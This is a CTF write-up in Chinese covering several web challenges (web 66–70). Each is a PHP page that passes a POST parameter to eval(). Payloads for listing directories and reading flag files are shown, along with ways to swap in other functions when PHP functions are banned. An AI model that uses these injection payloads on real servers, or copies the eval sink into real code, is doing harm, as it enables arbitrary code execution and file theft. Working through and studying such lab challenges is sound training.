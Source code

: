 ```php
<?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

payload:

c=echo highlight_file('flag.php');
c=show_source("flag.php");
c=highlight_file("flag.php");  



## web 66

```
<?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

代码没变，里头东西变了

首先 c=print_r(scandir("/")); 查看目录结构，发现flag.txt

![](http://img.npfs06.top/20210225161501.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

payload：c=highlight_file("/flag.txt");



## web 67

emmmm.  print_r被禁了，换成 var_dump即可，做法同上

payload：c=var_dump(scandir("/"));highlight_file("/flag.txt");



## web 68-70

文件显示的代码，比如show_source、highlight_file、file_get_contents等基本都被禁了，这里换成文件包含的即可，如include、require

payload: c=var_dump(scandir("/"));include("/flag.txt");
